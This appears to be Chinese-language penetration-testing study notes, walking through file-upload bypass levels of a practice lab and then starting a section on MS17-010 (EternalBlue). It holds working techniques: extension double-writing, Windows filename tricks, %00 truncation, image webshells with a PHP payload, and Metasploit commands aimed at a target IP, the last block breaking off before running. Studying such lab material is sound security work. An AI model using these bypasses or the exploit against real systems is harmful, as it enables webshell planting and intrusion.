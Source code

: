  以下符号在正则匹配时相等
 双引号" 等于 点号. 大于符号> 等于 问号?
 小于符号< 等于 星号*
 文件名.<或文件名.<<<或文件名.>>>或文件名.>><空文件名

首先抓包上传 a.php:.php 上传会在目录里生成 a.php 空白文件，接着再a.php 改成 a.>>>

 

 

## Pass-10（双写后缀名绕过上传）

在上传模块，有的代码会把黑名单的后缀名替换成空，例如 a.php 会把 php 替换成空，但是可以使用双写
 绕过例如 asaspp，pphphp，即可绕过上传
 抓包上传，把后缀名改成 pphphp 即可绕过

![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNly1gxsnl6lfcmj30ky0cymxu.jpg)

![img](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNly1gxsnksvnymj30x20in0w5.jpg)

 

 

## Pass-11（目录可控%00 截断绕过）

使用白名单验证会相对比较安全，因为只允许指定的文件后缀名。但是如果有可控的参数目录，也存在被绕过的风险.
 代码中使用白名单限制上传的文件后缀名，只允许指定的图片格式。但是$_GET['save_path']服务器接受客户端的值，这个值可被客户端修改。所以会留下安全问题

上传参数可控
 当 gpc 关闭的情况下，可以用%00 对目录或者文件名进行截断。
 php 版本小于 5.3.4
 首先截断攻击，抓包上传将%00 自动截断后门内容。
 例如 1.php%00.1.jpg 变成 1.php

 

 

## Pass-12（二次渲染）

有些图片上传，会对上传的图片进行二次渲染后在保存，体积可能会更小，图片会模糊一些，但是符合网站的需求。例如新闻图片封面等可能需要二次渲染，因为原图片占用的体积更大。访问的人数太多时候会占用，很大带宽。二次渲染后的图片内容会减少，如果里面包含后门代码，可能会被省略。导致上传的图片马，恶意代码被清除

首先判断图片是否允许上传 gif，gif 图片在二次渲染后，与原图片差别不会太大。所以二次渲染攻击最好用 git 图片马

 制作图片马
 将原图片上传，下载渲染后的图片进行对比，找相同处，覆盖字符串，填写一句话后门，或者恶意指令。
 原图片与渲染后的图片这个位置的字符串没有改变所在原图片这里替换成<? php phpinfo();?>直接上传即可

# 提权漏洞

## 一、MS17-010 永恒之蓝

```
#进入msf
msfconsole

#数据库搜索ms17-010
search ms17-010

#进入漏洞
use windows/smb/ms17_010_eternalblue

#设置被攻击者的ip
set rhosts 192.168.5.59

#运行
```